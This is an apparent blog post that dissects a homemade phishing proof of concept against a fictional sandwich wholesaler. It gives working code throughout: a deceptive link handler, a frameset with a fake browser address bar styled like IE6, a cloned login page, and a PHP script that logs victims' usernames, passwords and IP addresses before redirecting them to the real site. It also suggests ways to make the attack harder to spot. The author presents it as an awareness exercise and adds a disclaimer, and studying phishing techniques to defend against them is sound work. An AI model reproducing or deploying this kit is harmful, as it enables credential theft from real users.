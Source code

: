 ```yaml
---
layout: post
title: The anatomy of a phishing attack - advanced technique
tags:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at wholesalepbj.com.  My 'fake' URL that I provided the target with was from an e-mail from sales@wholesalepbj.com which told them about a new promotion we were running.  It told them to go to diamondquality-wholesalepbj.com for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited wholesalepbj.com and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  diamondquality-wholesalepbj.com, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  Just click <a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a> ...
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
    window.open("redirectToPBJ.html", "PBJWindow",
                "status=0,toolbar=0,location=0,left=1,top=1,height=" + screen.height + ",width=1010");
    return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns 'false' so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to pbj, we name it pbjwindow, etc.  You'll notice the only suspect thing is 'location=0' in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

Lets check out the content of redirectToPBJ.html

```html
<html>
	<title>http://www.wholesalepbj.com</title>
	<frameset rows="27,*" border=0 frameborder=0>
		<frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
		<frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
	</frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to www.wholesalepbj.com.html.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the top.html file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

top.html contains this text:

```html
<style type="text/css">
    body {
        margin: 0px;
        padding: 0px;
        background-color: #d4d0c8;
        font-family: tahoma;
        font-size: 11px;
        border-top: 1px solid #ffffff;
        border-bottom: 1px solid #aaaaaa;
        vertical-align: middle;
    }

    #address {
        float: left;
        height: 35px;
        padding: 3px;
    }

    #addressbox {
        width: 910px;
    }

    #gobutton {
        background-image: url('go.jpg');
        background-repeat: no-repeat;
        border: 0px;
        padding-left: 17px;
    }
</style>
<script type="text/javascript">
    function gotoAddress()
    {
        var v= document.getElementById('addressbox').value;
        if (v.substr(0, 7) != 'http://') {
            v = 'http://' + v;
        }
        top.opener.location.href=v;
        parent.window.close();
        return false;
    }
</script>

<p id="address">Address</p>
<p id="box">
    <form name="address" action="/" onsubmit="return gotoAddress()">
        <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
        <input value="Go" id="gobutton" type="submit" />
    </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The go.jpg is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an http://, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to wholesalepbj.com in my browser and did a file -> save as - and saved the entire web page and archive named 'www.wholesalepbj.com.html'.  I uploaded this to my evil server as well.  It had to be named this so we could support the 'src' attribute in our framed document top.html's source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite($f, "----------------------------\nip: " . $_SERVER['REMOTE_ADDR'] . "n" . print_r($_POST, TRUE));
fclose($f);  //note - additional spaces added in here cuz wordpress keeps eating these...
?>
<script type="text/javascript">
	parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.